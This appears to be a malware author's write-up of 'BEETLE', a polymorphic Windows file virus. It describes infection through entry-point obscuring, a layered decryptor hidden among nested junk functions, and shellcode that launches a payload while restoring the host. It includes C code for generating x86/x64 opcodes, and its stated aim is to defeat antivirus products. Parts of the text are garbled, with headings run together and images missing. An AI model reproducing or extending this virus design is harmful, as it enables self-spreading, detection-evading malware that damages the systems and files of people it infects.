









Polymorphic file virus BEETLEFeatures
Principle of operationEvery infected file will play the role of a carrier of useful load. As an example,
let's take an infected file winmine.exe that will calc.exe as its useful load. 


  The decryptor selects memory, copies data from the last section, decrypts the second "infernal" decryptor and passes control to it. The infernal decryptor represents a large number of nested polymorphic functions. The operations of the decryptor are spread among those functions.
 Upon its execution, a shell code will be decrypted. That shell code will launch the useful load and restore all the information stolen from the infected file, while continuing to control it.  Two methods are used to infect files:
Extended EPOThe CALL search is made by the entire section being executed rather than from the point of entry. No complex algorithms are used for the search. The algorithm looks like this:
After these simple steps, the virus gets all the call requests in the program.
As a result, we get a list of functions and their lengths. Using this data, the infector randomly selects one function, "steals" it and embeds its first decryptor. However, let's not forget this function can be connected to relocks that will "mutilate" the code of the decryptor. To avoid this, you need to disable relocks for addresses transferred inside the function. Besides, the infector does not know the principle of the programs' execution, so there is a chance the stolen function will never be executed. To increase the chances of its execution, the infector will redirect a few randomly selected calls to the code, or, to be more exact, to the polymorphic decryptor. Polymorphic generatorAny generator must be able to create arbitrary opcodes. In the infector, generation of basic opcodes is executed quite simply. To generate instructions, the following functions are introduced in the memory: struct BLOCK{ uint32 size; uint8* data; }; bool add_block(BLOCK *b,uint8* data,int size){ if (!b->size){ b->data=(uint8*)malloc(size); if (!b->data) return false; }else{ b->data=(uint8*)realloc(b->data,b->size+size); if (!b->data) return false; } memcpy(&b->data[b->size],data,size); b->size+=size; return true; } Description of registers and main operations: enum REG{ _RAX=0, _RCX=1, _RDX=2, _RBX=3, _RSP=4, _RBP=5, _RSI=6, _RDI=7, }; enum OP2{ _XOR = 0x30, _ADD = 0x00, _SUB = 0x28, _AND = 0x20, _OR = 0x08, _MOV = 0x88, _CMP = 0x38, _TEST =0x82, }; There are simple functions that can generate one opcode or an entire class of opcodes: struct OPCODE_2{ uint8 o1; uint8 o2; }; int _OP_RR(BLOCK *b,uint32 o,uint8 r1,uint8 r2,bool x64=false){ int i=0; if (x64){ uint8 pref=0x48; add_block(b,(uint8*)&pref,sizeof(pref)); i++; } OPCODE_2 op; op.o1=0x03+o&0xFF; op.o2=0xC0+r2+8*r1; add_block(b,(uint8*)&op,sizeof(OPCODE_2)); i+=2; return i; } int _PUSH_R(BLOCK *b,uint8 reg){ int i=1; uint8 op=0x50|reg; add_block(b,&op,1); return i; }
mov edx, key mov eax, data mov ecx, size/4 l1: xor [eax],edx add eax, 4 loop l1 This is what it will look like when a function is used: BLOCK b; b.size=0; int i=0; l+=_OP_RC(&b, _MOV, _RDX, key); l+=_OP_RC(&b, _MOV, _RAX, data); l+=_OP_RC(&b, _MOV, _RCX, size/4); int l1=l; l+=_OP_ArR(&b, _XOR, _RAX, _RDX); l+=_OP_RC(&b, _ADD, _RAX, 4); l+=LOOP(l1-(l+2)); This code can be easily made more complex, for example, by adding trash in between the instructions, changing registers, morphing main commands. All that was implemented when generating the first decryptor. The second decryptor will be much more sophisticated. "Infernal" trashTo complicate the decryptor, it was decided to generate a large number of nested functions and instructions of decryptor to smear on them. In this case, one instruction equals one useful command. I decided to put one useful instruction, say mov eax, 0x12345678, in the function. The following code should result: push ebp mov ebp, esp sub esp, local_size trash_1 — garbage instructions mov eax, 0x12345678 — useful command trash_2 — garbage instructions leave ret As a result of such simple actions, I can lose the eax value after the code is executed in trash_2, since trash can generate various instructions that will work with eax. So I introduced the "context" in which working registers are specified. If, when trash is generated, you work with a working register, it is recorded in a local variable for this function. struct REG_ITEM{ uint32 value; //register value uint32 local; //number of local variable bool st; //register inclusion flag bool l_st; //flag indicating that the register has been moved to a local variable }; REG_ITEM reg[8]; And here's an example of how it will work:
This is what a function executing mov eax, 12345678 will look like:  Let's call such a generator gen_call_op. Since now I can control the state of registers in the generated functions, I can build more complex structures. For example, I can generate multiple functions and combine them in func4: func1: .. func2: .. func3: mov eax,12345678 … func4: call func1 trash1 call func2 trash2 call func3 trash3 That way, you can make multiple layers. Here is a graph of just one useful command being executed:  In this graph, the useful instruction can be in place of any function.
For this graph, the function that contains the instruction is outlined in red. Let's such a generator gen_tree_op. It was easy to remake it for x64, most of the instructions differ by just the prefix. Advantages:
Shell codeThe kind of code that executes useful load and restores stolen sections of the file. It's freely relocated and written in pure C. This code is usually written on an assembler, so you may need to use it for the x64 version, but you could do with C for the x86 version. The principle of writing a database-independent code was taken from the 0x02 pr0m1x virus. As for the drastic changes, we could distinguish the search of the kernel32.dll database. In my code, the search is done through PEB, all names of the dll's loaded are listed and their hash is calculated. This method works on the entire XP line-up up to WIN8. Conclusions:
All these features should become pain in the ass for AVs, and if this is true, then all my efforts haven't been for nothing. Sources: sources/pest/beetle
|